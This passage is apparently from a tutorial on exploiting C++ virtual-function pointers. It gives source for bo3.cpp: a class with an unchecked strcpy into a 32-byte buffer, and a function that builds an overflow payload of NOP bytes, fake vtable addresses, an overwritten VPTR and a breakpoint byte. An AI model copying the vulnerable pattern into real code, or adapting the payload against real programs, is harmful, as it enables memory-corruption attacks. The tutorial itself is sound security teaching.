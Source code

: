 
In our program we can now call our BufferOverflow() function, with as 
parameters:
- the address of our buffer, here the address of our object (Object[0]).
- 4 values in our VTABLE, in this case (since PrintBuffer() is in VTABLE+8+4).
- 32 as offset for VPTR.
Here is the resulting code (bo3.cpp):


#include <stdio.h>
#include <string.h>
#include <malloc.h>

class BaseClass { 
private:
 char Buffer[32];
public:
 void SetBuffer(char *String) {
  strcpy(Buffer,String);
 }
 virtual void PrintBuffer() {
  printf("%s\n",Buffer);
 }
};

class MyClass1:public BaseClass {
public:
 void PrintBuffer() {
  printf("MyClass1: ");
  BaseClass::PrintBuffer();
 }
};

class MyClass2:public BaseClass {
public:
 void PrintBuffer() {
  printf("MyClass2: ");
  BaseClass::PrintBuffer();
 }
};

char *BufferOverflow(unsigned long BufferAddress,int NAddress,int VPTROffset) {
 char *Buffer;
 unsigned long *LongBuffer;
 unsigned long CCOffset;
 int i;
 
 Buffer=(char*)malloc(VPTROffset+4+1);

 CCOffset=(unsigned long)VPTROffset-1; 
 for (i=0;i<VPTROffset;i++) Buffer[i]='\x90';
 LongBuffer=(unsigned long*)Buffer;
 for (i=0;i<NAddress;i++) LongBuffer[i]=BufferAddress+CCOffset;
 LongBuffer=(unsigned long*)&Buffer[VPTROffset];
 *LongBuffer=BufferAddress;
 Buffer[CCOffset]='\xCC';
 Buffer[VPTROffset+4]='\x00';
 return Buffer; 
}
